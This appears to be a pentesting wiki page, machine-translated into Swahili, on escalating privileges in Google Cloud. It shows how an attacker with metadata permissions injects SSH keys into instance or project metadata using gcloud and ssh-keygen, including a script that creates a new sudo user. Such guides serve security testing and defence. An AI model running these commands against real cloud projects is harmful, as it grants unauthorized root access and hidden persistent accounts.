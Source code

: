 # GCP - Ongeza Metadata ya SSH ya Kijadi

## GCP - Ongeza Metadata ya SSH ya Kijadi

{{#include ../../../../banners/hacktricks-training.md}}

### Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye mfano kunaweza kusababisha **hatari kubwa za usalama ikiwa mshambuliaji atapata ruhusa zinazohitajika**.

#### **Kuongeza Funguo za SSH kwenye Metadata ya Kijadi**

Katika GCP, **mifumo ya Linux** mara nyingi inatekeleza skripti kutoka kwenye [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa ili **kuangalia mara kwa mara** kiungo cha metadata ya mfano kwa **sasisho za funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya kijadi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitawekwa na **kuunganishwa kwenye mfumo wa ndani**. Funguo hiyo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliye tayari au labda kuunda mtumiaji mpya mwenye ruhusa za `sudo`**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kuathiri mwenyeji.

#### **Ongeza funguo ya SSH kwa mtumiaji mwenye ruhusa**

1. **Chunguza Funguo za SSH Zilizopo kwenye Mfano:**

- Tekeleza amri ya kuelezea mfano na metadata yake ili kupata funguo za SSH zilizopo. Sehemu inayohusiana katika matokeo itakuwa chini ya `metadata`, hasa funguo ya `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- Angalia muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na alama ya nukta.

2. **Andaa Faili ya Teksti kwa Metadata ya Funguo za SSH:**
- Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazohusiana kwenye faili ya teksti inayoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.
3. **Unda Funguo Mpya ya SSH kwa Mtumiaji Lengo (`alice` katika mfano huu):**

- Tumia amri ya `ssh-keygen` kuunda funguo mpya ya SSH, kuhakikisha kuwa uwanja wa maoni (`-C`) unalingana na jina la mtumiaji lengo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Ongeza funguo mpya ya umma kwenye `meta.txt`, ukifanana na muundo ulio katika metadata ya mfano.

4. **Sasisha Metadata ya Funguo za SSH za Mfano:**

- Tumia amri ya `gcloud compute instances add-metadata` kupeleka metadata ya funguo za SSH iliyosasishwa kwenye mfano.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Mfano kwa Kutumia Funguo Mpya ya SSH:**

- Unganisha kwenye mfano kwa SSH ukitumia funguo mpya, ukifikia shell katika muktadha wa mtumiaji lengo (`alice` katika mfano huu).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Unda mtumiaji mpya mwenye ruhusa na ongeza funguo ya SSH**

Ikiwa mtumiaji yeyote wa kuvutia hakupatikana, inawezekana kuunda mpya ambayo itapewa ruhusa za `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine nyingi za Kielektroniki (VMs) katika mazingira ya wingu kwa **kutumia funguo za SSH katika kiwango cha mradi**. Njia hii inaruhusu ufikiaji wa SSH kwa mfano wowote ndani ya mradi ambao haujazuia wazi wazi funguo za SSH za mradi. Hapa kuna mwongozo wa muhtasari:

1. **Tumia Funguo za SSH katika Kiwango cha Mradi:**

- Tumia amri `gcloud compute project-info add-metadata` kuongeza funguo za SSH kutoka `meta.txt` kwenye metadata ya mradi. Kitendo hiki kinahakikisha kwamba funguo za SSH zinatambulika katika VMs zote ndani ya mradi, isipokuwa VM ambayo ina chaguo la "Block project-wide SSH keys" limewezeshwa.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH kwenye Mifano kwa Kutumia Funguo za Mradi:**
- Pamoja na funguo za SSH za mradi zikiwa zimewekwa, unaweza SSH kwenye mfano wowote ndani ya mradi. Mifano ambayo haizuia funguo za mradi itakubali funguo za SSH, ikitoa ufikiaji.
- Njia moja ya moja kwa moja ya SSH kwenye mfano ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii inatumia jina lako la mtumiaji wa sasa na funguo za SSH zilizowekwa katika kiwango cha mradi kujaribu ufikiaji.

## References

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
